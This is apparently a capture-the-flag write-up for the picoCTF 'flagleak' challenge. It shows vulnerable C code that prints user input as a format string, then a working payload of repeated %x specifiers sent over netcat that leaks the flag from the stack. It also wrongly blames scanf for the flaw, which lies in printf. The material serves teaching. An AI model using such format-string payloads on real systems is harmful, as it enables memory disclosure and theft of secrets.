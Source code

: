 ```yaml
---
layout: post
title:  "flagleak"
grouped_by: picobin
---
```

### Description
> Story telling class 1/2
I'm just copying and pasting with this program. What can go wrong? You can view source here. And connect with it using:
nc saturn.picoctf.net 50362

## Analysis

Opening the program vuln.c and reading through it
```c
void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}


```
We immediatley find ` scanf("%127s", story)`. This should be now vulnerable to format string attack. 

Running the executable just to see how it is printed.

```
$./vuln                                                                                                                                                                                                                                                          
Tell me a story and then I'll tell you one >> adfafasdfas
Here's a story -
adfafasdfas
```


## Solution

Although we know we can send in `%x` as input, we still do-not know how many so that we get the entire story(flag). So I'll do some trial and error. Initially I went with 50.

```
[ctf] nc saturn.picoctf.net 52748     5
Tell me a story and then I'll tell you one >> %x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Here's a story -
ffbe31f0ffbe32108049346782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578250f7f6d4101f7fa10008048338f7f65d20f7deaab06f6369707b4654436b34334c5f676e3167346c466666305f3474535f315f6b63623261317d613235fbad20008eb931000f7fa1990804c000
```

The output seems like hex. We'll convert it to text and see what we get 

[![flagleak](https://i.imgur.com/AJrLrht.png)](https://i.imgur.com/AJrLrht.png)


Just converting to hex will not suffice, we need to swap endianness as well. 
We get the flag `picoCTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}`